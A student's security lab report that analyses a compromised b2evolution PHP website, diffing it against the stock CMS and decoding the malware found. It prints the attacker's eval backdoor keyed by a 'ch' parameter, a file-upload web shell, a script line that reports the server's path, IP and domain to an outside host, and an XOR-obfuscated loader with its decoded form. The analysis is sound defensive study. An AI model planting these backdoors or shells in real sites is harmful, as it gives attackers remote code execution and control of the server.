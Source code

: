 ### Informational Security - Laboratory Work #3

Objectives
===============
- Examine the directory structure of a hacked web-site
- Find the pharma-store
- Find the malware
- Overcome the obfuscation techniques to see what the malware does
- Understand how the attack happened and what the attacker's objectives were


Malware Analysis 
================

After first dive into provided archive it was clear it is a PHP based application - a website.
After some more navigation I found out it represents a `b2evolution` CMS. It is present in *_functions_install.php*:
```
<?php
/**
 * This file implements support functions for the installer
 *
 * b2evolution - {@link http://b2evolution.net/}
 ...
```

Next step into finding the malware is to see what is different from the stock *b2evolution* CMS.
First we need the version. Running `grep version` command inside the site tree or a Sublime Text search will give us results:
```
conf/_application.php:
...
 $app_version = '4.0.5';
...
```

Now that we have both stock and hacked versions we can run a `diff` to see differences between folder containings:
```
Only in one-hacked: 400.shtml
Only in one-hacked: 401.shtml
Only in one-hacked: 403.shtml
Only in one-hacked: 404.shtml
Only in one-hacked: 500.php
Only in one-hacked: 500.shtml
Only in one-hacked: BingSiteAuth.xml
Only in one-hacked: a_noskin.php
Only in one-hacked: a_stub.php
Only in one-hacked: admin.php
Only in one-hacked: apple-touch-icon.png
Only in one-hacked: blog1.php
Only in one-hacked: blog2.php
Only in one-hacked: blog3.php
Only in one-hacked: blog4.php
Only in one-hacked: blog5.php
Only in one-hacked: blog6.php
Only in one-hacked: blog7.php
Only in b2evolution: blogs
...
```

Afer looking on the whole list it is not clear what is not ok. As I never run a php based CMS I started looking trough all files to find something that I could recognize.
First odd pattern was presence of `google.php` in more than 1 folder. It contains some strange php code and a lot of information about this specific website like the root folder, working folder, ip address etc. *Smells fishy.*

After a bit of interneting I found that in php `eval` is evil. I searched for some and found:
```
<?php
error_reporting(0);
eval("if(isset(\$_REQUEST['ch']) && (md5(\$_REQUEST['ch']) == '234a68e7dd9594b5fe0ce9a929b104ee') && isset(\$_REQUEST['php_code'])) { eval(stripslashes(\$_REQUEST['php_code'])); exit(); }");
?>
```

Serching the conent of `ch` variable I found out it is a known backdoor called *baskdoor*.

This variable is present in following files:
```
conf/_upgrade.php
cron/mms.php
inc/comments/model/_commentlist.class.php
inc/comments/views/_browse_comments.view.php
inc/files/views/_filetype_list.view.php
inc/plugins/views/_plugin_settings.form.php
inc/sessions/views/_goal_hitsummary.view.php
skins/_404_blog_not_found.main.php
skins/_atom/comments.main.php
skins/_rss2/index.main.php
skins/basic/_item_content.inc.php
```

Firs I tried to find a corelation between this code and google.php code. Unsuccesful.

Getting back to google.php and analyzing it carefully, there is a line that produce a javascript when accesed via webbrowser:
```
print "document.write('<script src=\"http://rusztiko.com/sh2.php?serverStr=$serverStr&req_type=add_site&document_root=$document_root&ip=$ip&domain='+window.location.hostname+'&uplUrl=$pp\"><\/script>');";
```

This writes to `ext.php` the generated code. The code looks like:
```
<?php error_reporting(0);
@ini_set("display_errors", 0);
$var = $_SERVER['PHP_SELF'] . "?";
$form = '<form enctype="multipart/form-data" action="' . $var . '" method="POST"><input name="uploadFile" type="file"/><br/><input type="submit" value="Upload" /></form>';
if (!empty($_FILES['uploadFile'])) {
    $self = dirname(__FILE__);
    move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $self . DIRECTORY_SEPARATOR . $_FILES["uploadFile"]["name"]);
    $time = filemtime($self);
    print "OK";
} else {
    print $form;
} ?>
```

This is a form. (`form`, `POST` method). It uploads files and it is surely for uploading malwares.

Another suspicious thign was some text that was actually code. 
This technique is called obfuscation:
```
<?php $ufcsafbt="tgmpgiamscuq"^"\x04\x15\x08\x178\x1b\x04\x1d\x1f\x02\x16\x14"; $bidjyvcisn="bhxfwpkefbrlct"^"M\x0e\x0b\x11\x16\x06\x07\x03I\x07";$ufcsafbt("$bidjyvcisn", "\x0b\x19\x11\x1a\x1b4\x14\x07\x19\x03\x19\x00\x08\x0f\x04J\x5bJY\x03\x15\x1b\x0eYJ\x08\x0dG\x10\x1a\x06\x08\x00\x5f\x3b\x3eL265\x29\x3a\x2f\x2a\x3b7F\x1a\x07E9\x5bB\x40OJN\x1e\x1cPJ\x2f\x2dQ\x2f\x2a2\x26\x3f\x24\x3f\x3c4Q\x05\x0b\x40\x3aKVTXNM\x5eB\x40\x11Y\x17\x11\x12\x0cX\x09H\x0c\x0dO\x14\x0cP\x1f\x40\x07VL\x5c\x5eTQF\x07\x16T\x15I\x5fFDKZ\x18\x04\x19\x07\x02Y5\x2dL\x2e\x2a\x23\x3c\x2f\x2f\x3f\x3d\x2fK\x1e\x05\x019\x0c\x08\x17\x0eK\x28QBL\x0fT\x08\x19\x0a\x1aN\x00\x19\x16\x11\x09\x10\x04\x0a\x1f\x09\x12\x0aF29F\x2b\x2a\x284\x27\x2f\x3c78N\x00\x1a\x034\x1b\x04\x13\x04N\x2bMY\x5dO\x14\x1a\x07\x10G\x5b\x5dI\x0dPD\x5c"^"nkcuikfbilktaacbkcbfczbqhakoyiumtwgbhmdpxojyolayobdrbfijfsxebsqupxwwjalhovfcggbvienjkvtporupjkkyhhvqhgywcdyjkaesercpnvfbmzqwjbvqiqhqxfmzjlitlnmqfogskluxklttmokvfsmdxychklawynnebtxmerjocciprskxkwaivdpfoqbndorfiprmg", "fswavlf"); ?>
```
Like what even is this? Code?

There are online tools like `unPHP` that can help decoding this "code".
The output is this:
```
<?php error_reporting(0);
eval("if(isset(\$_REQUEST['ch']) && (md5(\$_REQUEST['ch']) == '544a6edbf3b1de9ed7f7d2565545bd7e') && isset(\$_REQUEST['php_code'])) { eval(stripslashes(\$_REQUEST['php_code'])); exit(); }");
```
Aha! `eval` again. This is apparently same backdoor I found earlier. 
This is helping the bad guy to upload its files on the server.

Conlcusion

Because of not knowing PHP frameworks at all it was quite challenging. Initially I was stuck about what to do and just went trough files and did not found much. Searching on internets helped. Also asking guys that knows some more stuff about it helped even more.
It is quite clear that a beginner would have troubles with security using popular CMS-es. That given, one should always learn and verify for security breaches, especially when dealing with some sensitive data.
